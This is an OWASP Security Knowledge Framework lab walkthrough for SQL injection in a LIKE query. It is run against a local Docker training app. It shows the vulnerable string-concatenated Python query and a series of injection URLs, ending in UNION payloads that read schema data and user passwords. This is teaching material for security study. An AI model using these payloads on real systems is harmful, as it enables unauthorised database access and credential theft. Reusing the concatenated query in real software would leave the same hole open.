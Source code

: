 # KBID 46 - SQLI \(Like\)

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:sql-injection-like
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:sql-injection-like
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to ING!](.gitbook/assets/ING_Primary_Logo.png)

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by page name and displays the content.

![](.gitbook/assets/sqli-like-1.png)

```text
http://localhost:5000/home/Admin
```

### Step2

Now let's see if we can create an error by injecting a single quote

![](.gitbook/assets/sqli-like-2.png)

```text
http://localhost:5000/home/Admin'
```

By doing so the SQL query syntax is now faulty. This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```python
db.execute("SELECT UserName, email FROM users WHERE UserName LIKE '%"+username+"%' ORDER BY UserId")
```

### Step3

Now we need to inject characters to make the SQL query syntactically correct.  

![](.gitbook/assets/sqli-like-3.png)

```text
http://localhost:5000/home/Admin%'--
```

After that we inject a logical operator which is true \(and 1=1\). This should result in the application run as intended without errors.

![](.gitbook/assets/sqli-like-4.png)

```text
http://127.0.0.1:5000/home/Admin%' AND 1=1--
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

The UNION operator is used in SQL injections to join a query, purposely forged to the original query. This allows to obtain the values of columns of other tables. First we need to determine the number of columns used by the original query. We can do this by trial and error.

![](.gitbook/assets/sqli-like-5.png)

```text
http://localhost:5000/home/Admin%' union select 1--
```

This query results in an error, this is due to the fact that the original query started with 2 columns namely  
\* UserName
\* email

![](.gitbook/assets/sqli-like-6.png)

```text
http://localhost:5000/home/Admin%' union select 1,2--
```

Notice how "UserName" and "email" became placeholders for data we want to retrieve from the database

### Step 2

Now that we determined the number of columns we need to take, the next step is querying system tables to check which tables are stored in the Database. From the error message in the first picture, we can determine a SQLite DB is being used.  As the application didn't return an error, our guess is correct.

![](.gitbook/assets/sqli-like-7.png)

```text
http://localhost:5000/home/Admin%' union select 1,2 from sqlite_master--
```

#### Step 3

Now we need to discover the table and columns name of the table we want to extract. As the application only displays the first result, we need to play with SQL Limit.

![](.gitbook/assets/sqli-like-8.png)

```text
http://localhost:5000/home/Admin%' union select tbl_name,sql from sqlite_master limit 1,1--
```

#### Step 4

Now we have all the information required to extract data from *users* table. Play with SQL Limit to get credentials from more users.

![](.gitbook/assets/sqli-like-9.png)

```text
http://localhost:5000/home/Admin%' union select UserName,Password from users limit 0,1--
```

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

[https://www.owasp.org/index.php/Testing\_for\_SQL\_Injection\_\(OTG-INPVAL-005\)](https://www.owasp.org/index.php/Testing_for_SQL_Injection_%28OTG-INPVAL-005%29)

SQLite Reference

https://www.techonthenet.com/sqlite/sys_tables/index.php
